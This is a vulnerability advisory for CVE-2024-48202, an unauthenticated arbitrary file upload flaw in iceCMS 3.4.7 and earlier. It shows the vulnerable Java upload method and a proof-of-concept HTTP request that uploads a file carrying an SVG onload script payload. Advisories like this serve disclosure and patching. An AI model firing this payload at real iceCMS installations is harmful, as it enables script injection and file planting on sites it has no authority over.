



**[CVE-ID]**

CVE-2024-48202.

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

File Upload

**[Description]**

icecms <=3.4.7 has a File Upload vulnerability in FileUtils.java,uploadFile.

Here's the code that has problems. In this code, the file suffix isn't filtered at all. So attackers can upload files with any suffix they want.

This interface doesn't need authentication.

```
  public String uploadFile(MultipartFile file) {
    if (file.isEmpty()) {
      return "";
    }
    // applicationConfig根据这个来获取映射为当前的路径
    ApplicationConfig applicationConfig = new ApplicationConfig();
    String webPath = applicationConfig.getResPhysicalPath();

    String fileName = file.getOriginalFilename();
    String originalFilename = UUID.randomUUID() + fileName.substring(fileName.indexOf("."));
    String localPath = webPath + "/logistics/" + originalFilename;
    File newFile = new File(localPath);
    // 通过CommonsMultipartFile的方法直接写文件(注意这个时候）
    try {
      // 开始上传文件
      file.transferTo(newFile);
    } catch (IOException e) {
      e.printStackTrace();
      return "";
    }
    // 组装为实际地址，非本地地址
    ServerConfig serverConfig = new ServerConfig();
    String url = serverConfig.getUrl();
    return url + "/logistics/" + originalFilename;
  }
}
```

POC：

```
POST /FileApi/updateimage HTTP/1.1
Host: localhost:8181
Content-Length: 204
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB1HP789B2zx85EJ5
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryB1HP789B2zx85EJ5
Content-Disposition: form-data; name="editormd-image-file"; filename="test.txt"
Content-Type: image/jpeg

aaaaaaa<svg/onload=alert(1)>
------WebKitFormBoundaryB1HP789B2zx85EJ5--
```



Access the return address.



